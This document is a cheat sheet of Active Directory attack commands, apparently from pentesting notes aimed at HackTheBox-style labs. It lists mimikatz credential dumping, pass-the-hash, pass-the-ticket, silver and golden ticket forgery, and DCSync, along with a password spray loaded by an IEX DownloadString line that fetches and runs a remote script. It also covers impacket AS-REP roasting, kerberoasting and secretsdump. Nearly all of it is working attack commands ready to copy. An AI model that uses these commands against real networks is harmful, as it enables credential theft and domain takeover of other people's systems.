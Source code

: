 ```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
.\mimikatz.exe "privilege::debug" "sekurlsa::msv" "exit"
.\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:htb.local /ntlm:cc36cf7a8514893efccd332446158b1a" "exit"
#PTT
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
.\mimikatz.exe "privilege::debug" "kerberos::ptt c:\ticket\folder" "exit"

# silver ticket
whoami /user
.\mimikatz.exe "kerberos::golden /domain:htb.local /ptt /sid:S-1-5-21-1987370270-658905905-1781884369 /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:Administrator" "exit"

# golden ticket
whoami /user
.\mimikatz.exe "privilege::debug" "kerberos::purge" "kerberos::golden /ptt /user:Administrator /domain:htb.local /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:cc36cf7a8514893efccd332446158b1a" "exit"

# lsadump
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /user:krbtgt /domain:htb.local" "exit"
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /all /domain:htb.local" "exit"
```
### DomainPasswordSpray
```powershell
wget https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.108/DomainPasswordSpray.ps1')

Invoke-DomainPasswordSpray -Password Winter2022 -ErrorAction SilentlyContinue
```
### AD
#### impacket
```bash
# AS-REP
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/user:pass
impacket-GetNPUsers HTB.local/ -no-pass -dc-ip 10.10.10.161 -usersfile username.txt -format john -outputfile outhash.txt

# kerberoasting
impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -save -outputfile tgs.hash
```
##### DCsync - secretsdump
https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets
```bash
impacket-secretsdump htb.local/userattk:takSecbe987@10.10.10.161 -just-dc
impacket-secretsdump htb.local/userattk:takSecbe987@10.10.10.161 -just-dc-user Administrator -just-dc-ntlm

# SAM
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM local
# ntds.dit
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY local
```
